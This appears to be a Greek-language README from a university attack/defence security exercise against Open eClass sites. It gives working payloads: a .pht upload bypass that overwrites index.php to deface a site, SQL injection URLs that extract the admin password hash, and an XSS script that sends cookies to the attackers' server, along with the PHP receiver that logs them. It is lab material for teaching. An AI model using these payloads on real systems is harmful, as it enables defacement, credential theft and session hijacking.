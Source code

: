 * ```Προσθήκη σε κάθε αρχείο που ανεβαίνει, .txt extension```

* ```Απαγόρευση επικίνδυνων τύπων αρχείων```<br>
Σα μία τελευταία γραμμή άμυνας απαγορεύσαμε το ανέβασμα ορισμένων τύπων αρχείων όπως .php .js κλπ... .

## Attack

### Πως κάναμε το deface (RFI)
#### Target Team: ERROR-404

Aρχικά παρατηρήσαμε ότι δεν έχει προστατευτεί το μονοπάτι στο οποίο ανεβαίνουν τα αρχεία απο το work.php και το dropbox.php. Αντιληφθήκαμε επίσης πως το αμυνόμενο site μετατρέπει όλα τα .php αρχεία που ανεβαίνουν σε .txt. <br>

Για αυτό, χρησιμοποιήσαμε ένα διαφορετικό extension για php (<b>.pht</b> το οποίο τρέχει κανονικά σαν php) για το οποίο οι αμυνόμενοι δεν είχαν κανει μετατροπή σε
.txt. Στη συνέχεια με php, όπως φαίνεται και παρακάτω εύκολα αντικαταστήσαμε το αρχείο σύνδεσης openeclass/index.php με ένα δικό μας, με κάποιες επιπρόσθετες εκτυπώσεις. <br>

<b>Το αρχείο .pht που τρέξαμε: </b><br>
``` 
<?php
	echo getcwd();
	$where = '/var/www/openeclass/index.php'; 
	$from = 'updatedIndex.txt';
	$a=rename($from,$where);
	echo $a;
?> 
```
### SQL Injection

Τρέχοντας τα παρακάτω links, <b>εμφανίζεται ο encrypted κωδικός του drunkadmin</b> (δηλ. όπως αποθηκεύεται στην βάση). <br>

* ```http://error-404.csec.chatzi.org/modules/unreguser/unregcours.php?cid=TMA100'AND 0=1 UNION SELECT password FROM eclass.user WHERE username="drunkadmin" or'a'='a &u=4```
* ```http://error-404.csec.chatzi.org/modules/phpbb/reply.php?topic=2 AND 10=12) UNION SELECT password, password, password,password FROM eclass.user -- &forum=1```
* ```http://error-404.csec.chatzi.org/modules/phpbb/viewtopic.php?topic=2 AND 10 = 12 ) UNION SELECT password, password FROM eclass.user WHERE username="drunkadmin" -- &forum=1```

### Cross-site Scripting (XSS)

Ο τρόπος που εκμεταλλευτήκαμε τα <b>XSS attacks</b> είναι με το ακόλουθο <b>script</b> που έχει ως στόχο να στείλει τo cookie του αντιπάλου σε έναν δικό μας server, ο οποίος με την σειρά του θα αποθηκεύσει το cookie σε ένα αρχείο .txt. <br>

<b>To script που τρέξαμε:</b><br>
```
<script type="text/javascript">
	document.location='http://trojanponies.puppies.chatzi.org/cookie_stealer.php?c='+document.cookie;
</script>
```
<b>Το αρχείο cookie_stealer.php, που επεξεργάζεται το προηγούμενο αίτημα έχει τον ακόλουθο κώδικα:</b><br>
```
<?php
	if (isset($_GET["c"]))
	{
		$fp = fopen("stealed_cookies.txt", "a+");
		$cookie = $_GET["c"];
		fwrite($fp, $cookie . "\n\n");
		fclose($fp);
	}
```
